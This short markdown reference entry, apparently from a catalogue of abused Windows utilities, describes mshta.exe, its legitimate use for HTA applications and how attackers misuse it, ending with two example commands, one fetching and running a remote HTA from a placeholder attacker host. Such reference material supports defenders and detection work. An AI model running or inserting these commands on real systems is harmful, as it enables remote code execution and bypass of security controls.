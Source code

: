 # mshta.exe
## What is it?
*mshta.exe is a Microsoft utility used to execute Microsoft HTML Application (HTA) files.*

## Legitimate Use
- *It allows running HTA applications, which are HTML and script-based programs often used for administration interfaces.*

## How to Abuse it
- *Attackers can use mshta.exe to execute remote or local malicious HTA files, enabling execution of arbitrary code and bypassing security restrictions.*

## Example Attacks
```
mshta http://attacker.com/malicious.hta

mshta C:\malicious.hta
```
